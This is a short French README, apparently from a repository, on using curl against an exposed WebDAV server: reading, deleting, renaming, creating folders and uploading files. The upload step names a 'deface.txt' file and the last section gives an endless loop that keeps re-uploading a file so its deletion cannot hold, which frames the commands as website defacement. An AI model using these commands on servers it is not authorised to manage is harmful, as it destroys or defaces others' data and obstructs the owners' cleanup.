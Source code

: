 # Utilisation des commandes Curl avec une faille Webdav

Curl est un outil de ligne de commande pour effectuer toutes sortes de manipulations et de transferts d'URL, mais ce repositorie particulier se concentrera sur la façon d'utiliser curl pour gérer (lire/supprimer/renommer/télécharger) des fichiers sur un serveur webdav.

Supposons que nous ayons les données suivantes :

URL Webdav : https://example.com/webdav
Username : user
Password : pass

## Lecture de fichiers/dossiers sur le serveur Webdav :

> La lecture de fichiers ou de dossiers sur Webdav Server est simplement la mise en œuvre de la requête Curl . Ainsi, la commande serait:
```shell
curl 'https://example.com/webdav'
```

## Suppression de fichiers/dossiers sur le serveur Webdav :

> Pour supprimer un fichier ou un dossier existant sur le serveur Webdav, nous devons envoyer une requête DELETE suivie du chemin d'accès au dossier/fichier du serveur Webdav. Disons que nous devons supprimer le dossier de test sur le serveur webdav, donc notre commande serait :
```shell
curl -X DELETE 'https://example.com/webdav/test'
```
> Similarly for deleting file say test.html:
```shell
curl -X DELETE 'https://example.com/webdav/test.html'
```

## Renommer des fichiers sur un serveur webdav :
> L'opération de renommage peut être effectuée à l'aide de la requête -X MOVE. Disons que nous voulons renommer old.txt en new.txt :
```shell
curl -X MOVE --header 'Destination:http://example.org/new.txt' 'https://example.com/old.txt'
```

## Création d'un nouveau dossier sur le serveur Webdav :
> Pour créer un nouveau répertoire sur le serveur webdav, utilisez la requête -X MKCOL :
```shell
curl -X MKCOL 'https://exemple.com/new_folder'
```

## Télécharger le fichier sur le serveur Webdav :
> Pour télécharger un fichier sur le serveur webdav, utilisez la requête PUT. Disons que le fichier src est /path/to/local/deface.txt et que nous voulons le télécharger dans le dossier de test sur le serveur webdav, donc notre commande serait :
```shell
curl -T '/path/to/local/deface.txt' 'https://example.com/test/'
```

## Faire une boucle pour bloquer le fichier :
> Donc ceci permet de bloquer un curl -X DELETE, en effet il télecharge à l'infini le fichier sur le serveur webdav donc voici ce qui faut faire:
```sh
while true; do curl -T 'fichier.html' 'https://example.com' ; done
```


